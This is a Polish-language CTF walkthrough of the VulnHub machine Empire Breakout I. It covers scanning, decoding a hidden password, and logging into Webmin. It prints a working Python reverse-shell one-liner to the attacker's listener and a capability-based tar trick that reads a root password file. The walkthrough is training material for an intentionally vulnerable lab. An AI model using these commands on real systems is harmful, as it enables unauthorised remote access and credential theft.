









**CTF - Empire Breakout I**

`Autor: adi7312`

**Poziom trudności**: Łatwy

**Link do maszyny**: [Empire Breakout I](https://www.vulnhub.com/entry/empire-breakout,751/).

**Spis treści:**
- [**CTF - Empire Breakout**](#ctf---empire-breakout)
  - [**Skanowanie sieci**](#skanowanie-sieci)
  - [**Skanowanie portów**](#skanowanie-portów)
  - [**Identyfikacja podatności**](#identyfikacja-podatności)
  - [**Poszukiwanie flagi użytkownika**](#poszukiwanie-flagi-użytkownika)
  - [**Eskalacja uprawnień i zdobycie drugiej flagi**](#eskalacja-uprawnień-i-zdobycie-drugiej-flagi)

## **Skanowanie sieci**

**Cel**: Znalezienie adresu IP sieci oraz IP podatnej maszyny.

Korzystamy z polecenia:

    ifconfig

Adres IP Kali Linuxa to 192.168.138.132, a maska sieci to 255.255.255.0 (/24), zatem adresem sieci jest 192.168.138.0/24, korzystamy z tej informacji i uruchamiamy netdiscover poleceniem:

    sudo netdiscover -r 192.168.138.0/24
Otrzymujemy 4 wyniki, z czego 192.168.138.138 to adres IP maszyny **Empire Breakout**

## **Skanowanie portów**

**Cel**: Dowiedzieć się na jakich portach działa host **Empire Breakout**, dokonać wykrycia usług tych hostów oraz zidentyfikować system operacyjny.

Uruchomiamy narzędzie nmap, z poniższymi opcjami:
* **-sV** - w celu identyfikacji wersji usług hosta
* **-O** - w celu identyfikacji systemu operacyjnego

Host działa na 5 portach, uwagę przykuwa **Samba** która była w przeszłości dosyć podatna, jednak po sprawdzeniu okazuje się że obecna na **Empire Breakout** wersja jest bezpieczena, więc szukamy podatności gdzie indziej.

## **Identyfikacja podatności**

**Cel**: Identyfikacja podatności

Nastepnie robimy skanowanie podatności, korzystamy z narzędzia OpenVas. Okazuje się że nasza maszyna ma bardzo dużo podatności związanych z **webmin**, a *severity* maszyny określono na aż 9.8 punkta.

## **Poszukiwanie flagi użytkownika**

**Cel**: Zdobycie pierwszej flagi

Wchodzimy na stronę *192.168.138.138* jednak znajduje się tam domyślna strona *Apache*, jednak mimo to zajrzymy do kodu źródłowego. Okazuje się że na dole znajduje się zaszyfrowana jakaś treści, najprawdpodobniej hasło.

Hasło jest "zaszyfrowane" w języku programowania *brainfuck*, korzystamy z internetowego interpretera tego języka, odszyfrowane hasło to:

    .2uqPEfj3D<P’a-3

Na tej stronie nic więcej nie zrobimy, ale może spróbujmy wejść na to samo IP ale na port 20000, tzn. wpisujemy w przeglądarke (UWAGA! Należy skorzystać z https a nie http):

    https://192.168.138.138:20000/

Pokazuje nam się okno logowania, znamy hasło, jednak nie znamy username. Zatem będziemy musieli dokonać enumeracji użytkowników. Z tym problemem równiez poradzimy sobie, skorzystamy z narzędzia *enum4linux*. Korzystamy więc z polecenia:

    sudo enum4linux 192.168.138.138

Output jest nieco długi i może być przytłaczający, jednak na uwagę zasługuje jeden użytkownik *cyber*.

Spróbujmy zatem zalogować się przy pomocy *cyber*, podajemy również pozyskane ostatnio hasło. Pomyślnie zalogowaliśmy się. Następnie tworzymy web shella (zakładka usermin, na dole znajduje się symbol konsolki), który pozwali nam wykonanie *reverse shell'a* przy pomocy Pythona. 

Na początku jednak uruchamiamy terminal na naszym *Kali Linux* i wpisujemy polecenie:

    sudo nc -lvnp 1234

Robimy to w celu nasłuchiwania aktywności na porcie 1234 oraz żebyśmy mogli wykorzystać nasz shell wywołany przez Pythona.

Wpisujemy w konsoli polecenie (w tej webowej):

    python -c 'import socket,subprocess,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("192.168.138.132",1234)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); import pty; pty.spawn("/bin/sh")'

Teraz na terminalu gdzie odpalaliśmy polecenie `sudo nc ...` powinien wywołać się *shell*. Pierwsze co sprwadzimy to zawartość katalogu w którym jesteśmy wpisujemy więc `ls`, widzimy plik *user.txt*, chcąc zobaczyć jego zawartość wpisujemy `cat user.txt`, w środku znajduje się pierwsza flaga.

**`Pierwsza Flaga: 3mp!r3{You_Manage_To_Break_My_Secure_Access`**

## **Eskalacja uprawnień i zdobycie drugiej flagi**

**Cel**: Eskalacja uprawnień do roota oraz zdobycie ostatniej flagi.

Teraz musimy przejąć flagę *root'a*. Początkowo próbowaliśmy używać `uname -a` w celu poznania wersji Linuxa, i na tej podstawie próbowaliśmy ustalić czy z tą wersją istnieją jakieś podatności, jednak nic nie znaleźliśmy. Na trop naprowadziło nas polecenie:

    getcap -r / 2>/dev/null

Pomogło nam określić możliwości niektórych plików:

*cap_dac_read_search=ep* oznacza że może skorzystać z tego narzędzia do oczytania każdych plików (nawet plików roota). Jednak zanim to zrobimy należy uruchomić nieco wygodniejszego shella:

    python3 -c ‘import pty;pty.spawn(“/bin/bash”)’

Wchdzimy teraz w katalog `/var/backups`, po użyciu polecenia `ls -la` możemy zobaczyć plik *.old_pass.bak* (którego oczywiście odczytac nie możemy bo nie mamy uprawnien roota), możemy na tym pliku użyć nasze znalezione wcześniej narzędzie, wracamy więc do katalogu `/home/cyber`. Wpisujemy polecenie:

    ./tar -cf password.tar /var/backups/.old_pass.bak

Stworzyliśmy archiwum *password.tar*, nastepnie poleceniem:

    tar -xf password.tar

Rozpakowuje zawartość (którą będziemy mogli już przeczytać jako user *cyber*), następnie odczytuję zawartość *.old_pass.bak*.

**Znalezione hasło**: Ts&4&YurgtRX(=~h

Znalezione hasło wykorzystamy żeby przełączyć się z `cyber` na `roota`. Wpisujemy polecenie i podajemy hasło:

    su root

Następnie pozostało jedynie przejść do `/root` oraz odczytać flagę.

**`Ostatnia Flaga: 3mp!r3{You_Manage_To_BreakOut_From_My_Secure_System_Congratulation}`**
